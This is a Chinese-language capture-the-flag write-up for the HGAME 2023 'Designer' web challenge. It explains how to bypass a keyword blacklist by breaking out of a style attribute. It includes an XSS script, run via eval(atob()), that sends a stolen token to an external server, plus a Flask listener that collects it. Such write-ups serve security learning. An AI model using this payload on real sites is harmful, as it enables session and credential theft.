 ## [HGAME 2023 week2]Designer

查看代码,只有本地登录的用户才能在JWT中拥有flag
<details>
<summary> button/share 路由代码 </summary>
```js
app.post("/button/share", auth, async (req, res) => {
    const browser = await puppeteer.launch({
    headless: true,
    executablePath: "/usr/bin/chromium",
    args: ['--no-sandbox']
    });
    const page = await browser.newPage()
    const query = querystring.encode(req.body)
    await page.goto('http://127.0.0.1:9090/button/preview?' + query)
    await page.evaluate(() => {
    return localStorage.setItem("token", "jwt_token_here")
    })
    await page.click("#button")
    
    res.json({ msg: "admin will see it later" })
})
```
</details>


题目的 `/button/share` 路由是打开浏览器访问 http://127.0.0.1:9090/button/preview 这个页面。这个页面也在代码的路由中，

<details>
<summary> button/preview 路由代码 </summary>
```js
app.get("/button/preview", (req, res) => {
  const blacklist = [
    /on/i, /localStorage/i, /alert/, /fetch/, /XMLHttpRequest/, /window/, /location/, /document/
  ]
  for (const key in req.query) {
    for (const item of blacklist) {
      if (item.test(key.trim()) || item.test(req.query[key].trim())) {
        req.query[key] = ""
      }
    }
  }
  res.render("preview", { data: req.query })
})
```
</details>

常见的注入点都被过滤了，比如onclick等，不过问题不大，查阅preview.ejs代码就很容易发现：

```html
	<a class="button" id="button" style="<% for (const key in data) {  %><%- key %>:<%- data[key] %> ;<% }; %>">
	CLICK ME
	</a>
```

按钮是通过字符串拼接的方式设置style的，因此，只需要有一个"就能将HTML语句截断，由于脚本中不能出现window等词语，因此，可以考虑使用atob函数解码字符串后，使用eval函数执行语句，构造的js脚本需要能获取localStorage中的内容，并上传到接收信息的服务器。以下是我构造的脚本：
<details>
<summary> xss脚本 </summary>
```js
async function r() {
    var a = new XMLHttpRequest();
    var b = new FormData();
    fetch('http://127.0.0.1:9090/user/register', {
        method: 'POST',
        body: { "username": "admin" }
    })
        .then(response => response.text())
        .then(data => {
            b.append('token', data);
            a.open('POST', "http://ctf.zichushi.cn:65502/a/stat.gif");
            a.send(b)
        })
}
r();
// 代码可能有点乱，我根据参考的writeup写的，fetch部分是gpt生成的
```
</details>

将上脚本base64编码，然后POST请求/button/share 接口，请求内容为：
```json
	{"border-radius":"\"><script>eval(atob('BASE64编码内容'))</script>"}
```

VPS中运行一个flask服务，接收请求
<details>
<summary> flask服务代码 </summary>
```python
from flask import Flask,request

app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>', methods=['POST','GET'])
def catch_all(path):
    app.logger.info(request.get_data())
    return 'yes'
if __name__ == '__main__':
    app.run(debug=True,port=65502,host='0.0.0.0')
```

</details>

在vps中等着日志就行
![flag](image/HGAME2023week2Designer.png)
最后将日志中获得的jwt解码一下，就获得flag

参考 [vvbbnn00师傅的writeup](https://blog.vvbbnn00.cn/archives/hgame2023week2-bu-fen-writeup)





